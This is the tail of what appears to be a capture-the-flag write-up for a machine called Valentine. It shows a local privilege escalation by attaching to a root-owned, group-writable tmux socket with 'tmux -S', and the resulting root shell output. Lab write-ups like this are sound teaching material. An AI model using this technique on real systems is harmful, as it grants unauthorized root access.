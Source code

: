 >Check we can read/write…

{% highlight shell %}
hype@Valentine:/$ ls -lash /.devs/dev_sess
0 srw-rw---- 1 root hype 0 Mar 15 01:45 /.devs/dev_sess
{% endhighlight %}

>Now do the same command you see running in your user terminal that has group membership allowing rw to attach to the session…

{% highlight shell %}
hype@Valentine:/$ tmux -S /.devs/dev_sess
# new tmux window
root@Valentine:/# id;hostname
uid=0(root) gid=0(root) groups=0(root)
Valentine
{% endhighlight %}

Neato completo! This was a bit CTF-like in the early stage but it was a nice demonstration of the bug and a privesc I hadn't seen before. Nice.
